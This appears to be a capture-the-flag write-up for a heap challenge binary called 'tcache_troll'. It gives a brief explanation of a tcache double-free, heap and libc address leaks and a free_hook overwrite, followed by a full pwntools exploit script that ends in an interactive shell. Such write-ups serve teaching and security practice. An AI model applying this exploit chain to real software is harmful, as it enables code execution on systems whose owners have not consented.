

the binary allow us to malloc 8 times, and free 5 times amd read unfreed chunks


fortunately, the binary use libc 2.28, which allows us to double free into tcache bins



because the pointer of freed chunk are not deleted, we can read those freed chunk by having a non-freed chunk (based on the in_use bit of the program) overlap a freed chunk (based on the in_use bit), thus allow us to leak heap_base 

and with heap_base leaked, we can point our fake chunk to the tcache itself and edit tcache metadata, to supress it from pushing freed chunks to tcache bins and create unsorted chunks, by which we can leak libc_base 

then again, with another fake chunk pointed to tcache, we can overwrite one of the tcachebin pointer to the free_hook in libc and overwrite it with a getshell gadget 

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./tcache_troll")

context.binary = exe
context.log_level="debug"

def malloc(size, data):
    r.recvuntil(">")
    r.sendline("1")
    r.recvuntil("size:")
    r.sendline(str(size).encode())
    r.recvuntil("data:")
    r.send(data)

def free(index):
    r.recvuntil(">")
    r.sendline("2")
    r.recvuntil("index:")
    r.sendline(str(index).encode())

def read(index):
    r.recvuntil(">")
    r.sendline("3")
    r.recvuntil("index:")
    r.sendline(str(index).encode())

def main():
    global r

    # r=gdb.debug(exe.path)
    r = process(exe.path)

    filler=b"\x00"

    malloc(0x248,filler)
    free(0)
    malloc(0x248,filler)
    free(0)
    free(0)

    read(1)
    data=r.recvline()
    data=data[1:]
    data=data[:8]

    heap_base=u64(data)-0x260

    malloc(0x248,flat(heap_base+0x10))
    malloc(0x248,filler)

    payload=flat(
        0,
        b"\xff"*0x38,
        b"\x00"*0x118,
        heap_base+0x10
    )
    malloc(0x248,payload)
    malloc(0x18,filler)

    free(0)

    read(1)
    data=r.recvline()
    data=data[1:]
    data=data[:8]

    libc_base=u64(data)-0x3b0ca0

    print(hex(libc_base))

    payload=flat(
        0,
        b"\xff"*0x38,
        b"\x00"*0x118,
        libc_base+0x3b28e8
    )
    malloc(0x248,payload)
    malloc(0x248,flat(libc_base+0x41a5a))

    free(0)

    r.interactive()


if __name__ == "__main__":
    main()

```